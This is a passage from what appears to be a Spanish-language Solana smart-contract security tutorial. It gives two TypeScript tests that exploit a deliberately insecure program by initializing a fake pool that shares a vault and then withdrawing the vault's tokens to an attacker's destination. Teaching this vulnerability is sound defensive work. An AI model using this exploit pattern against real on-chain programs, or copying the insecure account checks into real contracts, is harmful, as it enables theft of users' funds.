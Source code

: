 Después de eso, hay dos pruebas más para mostrar cómo las instrucciones son vulnerables a explotar.

La primera prueba invoca la `initialize_pool` instrucción de crear una `pool` cuenta "falsa" utilizando la misma cuenta de `vault` token, pero una diferente `withdraw_destination`.

La segunda prueba se retira de este grupo, robando efectivamente fondos de la bóveda.


```tsx
it("Insecure initialize allows pool to be initialized with wrong vault", async () => {
    await program.methods
      .initializePool(authInsecureBump)
      .accounts({
        pool: poolInsecureFake.publicKey,
        mint: mint,
        vault: vaultInsecure.address,
        withdrawDestination: withdrawDestinationFake,
        payer: walletFake.publicKey,
      })
      .signers([walletFake, poolInsecureFake])
      .rpc()

    await new Promise((x) => setTimeout(x, 1000))

    await spl.mintTo(
      connection,
      wallet.payer,
      mint,
      vaultInsecure.address,
      wallet.payer,
      100
    )

    const account = await spl.getAccount(connection, vaultInsecure.address)
    expect(Number(account.amount)).to.equal(100)
})

it("Insecure withdraw allows stealing from vault", async () => {
    await program.methods
      .withdrawInsecure()
      .accounts({
        pool: poolInsecureFake.publicKey,
        vault: vaultInsecure.address,
        withdrawDestination: withdrawDestinationFake,
        authority: authInsecure,
        signer: walletFake.publicKey,
      })
      .signers([walletFake])
      .rpc()

    const account = await spl.getAccount(connection, vaultInsecure.address)
    expect(Number(account.amount)).to.equal(0)
})
```
